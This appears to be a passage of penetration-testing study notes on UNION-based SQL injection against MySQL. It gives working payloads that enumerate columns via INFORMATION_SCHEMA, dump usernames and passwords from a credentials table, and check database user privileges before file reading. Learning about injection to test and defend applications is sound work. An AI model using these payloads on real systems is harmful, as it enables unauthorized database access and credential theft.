 ## COLUMNS
The [COLUMNS](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) table contains information about all columns present in all the databases.
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

The table has two columns named `username` and `password`. We can use this information and dump data from the table.

## Data

Now that we have all the information, we can form our `UNION` query to dump data of the `username` and `password` columns from the `credentials` table in the `dev` database.
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```


# Reading Files


## Privileges


For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files


```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```
or
```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

#### User Privileges

```sql
SELECT super_priv FROM mysql.user
```
injection :
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:
